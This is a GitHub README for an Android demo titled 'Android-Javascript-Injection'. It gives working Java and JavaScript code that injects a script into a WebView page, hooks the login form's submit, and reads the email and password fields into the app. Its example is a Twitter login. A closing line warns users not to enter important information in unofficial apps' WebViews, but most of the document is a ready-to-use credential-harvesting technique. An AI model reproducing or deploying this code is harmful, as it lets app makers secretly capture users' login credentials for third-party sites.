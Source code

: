 Android-Javascript-Injection
============================

This demo show you how to inject javascript to webview,
and get input value before submit.


<br/>

Step 1 : create a class which called by javascript
-----------
```Java
class MyJavaScriptInterface
{
    @JavascriptInterface
    public void processHTML(String html)
    {
        //called by javascript
    }
}
```



Step 2 : register interface for javascript
-----------
```Java
webview1.getSettings().setJavaScriptEnabled(true);
webview1.addJavascriptInterface(new MyJavaScriptInterface(), "MYOBJECT");
```



Step 3 : inject javascript to page
-----------
```Java
webview1.setWebViewClient(new WebViewClient() {
    @Override
    public void onPageFinished(WebView view, String url) {
        super.onPageFinished(view, url);

        StringBuilder sb = new StringBuilder();
        sb.append("document.getElementsByTagName('form')[0].onsubmit = function () {");
        sb.append("var objPWD, objAccount;var str = '';");
        sb.append("var inputs = document.getElementsByTagName('input');");
        sb.append("for (var i = 0; i < inputs.length; i++) {");
        sb.append("if (inputs[i].name.toLowerCase() === 'pass') {objPWD = inputs[i];}");
        sb.append("else if (inputs[i].name.toLowerCase() === 'email') {objAccount = inputs[i];}");
        sb.append("}");
        sb.append("if (objAccount != null) {str += objAccount.value;}");
        sb.append("if (objPWD != null) { str += ' , ' + objPWD.value;}");
        sb.append("window.MYOBJECT.processHTML(str);");
        sb.append("return true;");
        sb.append("};");
                
        view.loadUrl("javascript:" + sb.toString());
    }

});
```

Example : twitter login injection
-----------
![](pic1.png)
<br/>
![](pic2.png)

<br/>
Note : it's dangerous to give important information in webview with unoffical app.
-----------
